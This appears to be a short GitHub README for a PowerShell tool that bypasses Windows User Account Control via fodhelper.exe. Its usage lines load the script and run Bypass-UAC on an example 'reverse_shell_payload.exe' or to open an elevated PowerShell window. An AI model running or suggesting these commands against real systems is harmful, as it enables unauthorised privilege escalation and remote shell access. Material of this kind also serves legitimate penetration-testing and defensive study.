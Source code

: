 # fodhelper-UACBypass

fodhelper.exe UAC Bypass with PowerShell.

## Usage
```powershell
PS> . ./fodhelper-UACBypass.ps1

PS> Bypass-UAC "C:\Users\john\reverse_shell_payload.exe"
# or
PS> Bypass-UAC # launch powershell window.

```
